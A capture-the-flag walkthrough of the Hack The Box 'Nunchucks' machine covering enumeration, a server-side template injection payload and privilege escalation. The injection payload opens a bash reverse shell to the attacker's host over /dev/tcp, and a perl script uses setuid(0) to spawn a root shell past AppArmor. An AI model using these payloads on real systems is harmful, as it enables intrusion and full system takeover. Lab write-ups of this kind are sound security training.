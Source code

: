 # Hack The Box Nunchucks
## Difficulty : Easy
## OS : Linux

## Enumeration 

I'll start with a simple port scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.95.252
```

![pScan](img1.png)

After adding the domain name to our "/etc/hosts" file we can see the webpage.

![page1](img2.png)

Using dirsearch we find more pages.

```bash
dirsearch -u https://nunchucks.htb 
```

![dirs](img3.png)

Using ffuf we find a new subdomain.

```bash
sudo ffuf -u https://10.129.95.252 -H 'HOST: FUZZ.nunchucks.htb' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 30589
```

![ffuf](img4.png)

We find a SSTI vulnerability.

![SSTI](img5.png)

Using the following payload I managed to get a reverse shell on the target.

```bash
{
    "email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c \\\"bash -i >& /dev/tcp/10.10.14.54/6666 0>&1\\\"')\")()}}"
}
```

![RevS](img6.png)

I'll get the user flag.

```bash
cd ~
ls
cat user.txt
```

## We got the user flag!

## Privilege Escalation

Using linpeas we find that "/usr/bin/perl" has SUID Capabilities.

![lin](img7.png)

I found an apparmor profile for perl in "etc/apparmor.d/".

```bash
cd etc/apparmor.d/
ls
cat usr.bin.perl
```

![up](img8.png)

Making a script that uses perl allows us to bypass apparmor.

Script:
```perl
#!/usr/bin/perl

use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";
```

I'll run the script and get the root flag.

```bash
chmod +x script
./script
cat /root/root.txt
```

![fl](img9.png)

## We got the root flag!